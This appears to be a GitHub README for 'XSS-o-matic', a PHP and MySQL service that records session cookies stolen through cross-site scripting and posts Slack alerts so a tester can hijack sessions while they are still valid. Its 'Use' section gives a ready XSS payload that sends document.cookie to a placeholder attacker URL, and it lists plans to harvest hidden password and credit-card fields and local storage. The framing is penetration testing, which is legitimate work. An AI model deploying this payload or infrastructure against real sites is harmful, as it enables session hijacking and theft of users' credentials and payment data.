 # XSS-o-matic
Recieve Real-Time Slack (or other) Notifications for When Session Cookies are Captured via Stored and Reflected Cross Site Scripting (XSS)

# Description
This is another API, similar to my Phishing API, except this one aids in Session Hijacking when HTML Injection/XSS is discovered on a page.  This was born out of a need to do more than the standard JavaScript alert box.  I needed a simple one-liner my team could use whenever they encountered Cross Site Scripting and I needed to act quickly via real-time notifications while the user's session was still valid.  For this to fully work properly, HttpOnly flags can't be set in the target site's cookies.  For those that aren't familiar with Session Hijacking, please read up on it from the OWASP page here : https://www.owasp.org/index.php/Session_hijacking_attack.  TL-DR is that you can jump into a user's session without credentails to access authenticated areas of the web application.  There's a MySQL database which also captures a handful of other useful data, such as timestamps, IP addresses, User Agent strings, Hostnames, and Referer headers.

Future Implementation Goals Include : 

Capturing Cross Domain Cookies
Hidden User/Pass/CC Fields for Auto Population
Ability to Read Local Storage if Available
Integrate into IFTTT for Alterting Options


# Initial Deployment
Just host the PHP files on a web server and import the SQL Dump to create the schema.

# Use
When XSS is Discovered During an Application Security or Penetration Test, Simply Use '<img src=x onerror=this.src='https://YOUR-URL-HERE.com/XSS.php?project=YOUR-PROJECT-HERE&cookie='+document.cookie> height=1 width=1' as Your Payload.  You may need to modify based on filtering of course, but as long as you're posting data to that URI it should work.


![Slack Bot Notification](https://i.imgur.com/JLVGbhe.png)
